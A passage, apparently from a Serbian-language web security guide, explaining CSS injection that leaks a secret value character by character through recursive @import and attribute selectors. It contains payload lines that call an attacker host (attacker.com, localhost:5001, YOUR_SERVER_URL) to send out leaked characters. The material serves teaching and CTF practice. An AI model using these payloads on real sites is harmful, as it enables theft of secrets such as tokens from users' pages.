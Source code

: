 ```css
@import url('//attacker.com:5001/start?');
```

1. **Uvoz će primiti neki CSS skript** od napadača i **pregledač će ga učitati**.
2. Prvi deo CSS skripta koji će napadač poslati je **još jedan `@import` ka serveru napadača.**
3. Server napadača još neće odgovoriti na ovaj zahtev, jer želimo da procuri neke karaktere, a zatim odgovoriti na ovaj uvoz sa payloadom kako bi procurili sledeće.
4. Drugi i veći deo payloada će biti **payload za curenje atributa selektora**
5. Ovo će poslati serveru napadača **prvi karakter tajne i poslednji**
6. Kada server napadača primi **prvi i poslednji karakter tajne**, odgovoriće na uvoz koji je zatražen u koraku 2.
7. Odgovor će biti tačno isti kao **koraci 2, 3 i 4**, ali ovog puta će pokušati **pronaći drugi karakter tajne, a zatim predposlednji**.

Napadač će **pratiti taj ciklus dok ne uspe potpuno da procuri tajnu**.

Originalni [**Pepe Vila kod za iskorišćavanje ovoga možete pronaći ovde**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) ili možete pronaći skoro [**isti kod ali komentiran ovde**.](./#css-injection)

{% hint style="info" %}
Skripta će pokušati otkriti 2 karaktera svaki put (od početka i od kraja) jer atributni selektor omogućava stvari poput:

```css
/* value^=  to match the beggining of the value*/
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}

/* value$=  to match the ending of the value*/
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
```

Ovo omogućava skriptu da brže otkrije tajnu.
{% endhint %}

{% hint style="warning" %}
Ponekad skript **ne detektuje tačno da je pronađeni prefiks + sufiks već kompletan flag** i nastaviće dalje (u prefiksu) i unazad (u sufiksu) i u nekom trenutku će se zablokirati.\
Nema brige, samo proverite **izlaz** jer **možete videti flag tamo**.
{% endhint %}

### Ostali selektori

Drugi načini pristupa delovima DOM-a pomoću **CSS selektora**:

* **`.class-to-search:nth-child(2)`**: Ovo će pronaći drugu stavku sa klasom "class-to-search" u DOM-u.
* **`:empty`** selektor: Korišćen na primer u [**ovom writeup-u**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)**:**

```css
[role^="img"][aria-label="1"]:empty { background-image: url("YOUR_SERVER_URL?1"); }
```

### XS-Search zasnovan na greškama
